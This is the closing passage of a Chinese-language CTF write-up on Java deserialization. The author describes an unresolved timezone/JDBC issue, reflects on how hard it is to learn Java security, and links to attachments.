

上网搜了很多次原因都还是未能够解决这个问题

有说时区的，但是dockerfile里面已经设定成中国时区的

而且在jdbc连接我也加上了UTC了，但是依然没有解决

但是感觉这个已经不属于java反序列化的范畴，就不打算继续专研下去了。

# 五、小结

学java还是一件非常靠积累的事情，感觉学了挺久了，但是在一些比赛中还是做不出题目，赛后复现也是非常的艰难，但是还是要感谢身边帮助我的师傅还有一直坚持的自己！

附件及wp链接：  
<https://pan.quark.cn/s/97aa1b39573f>
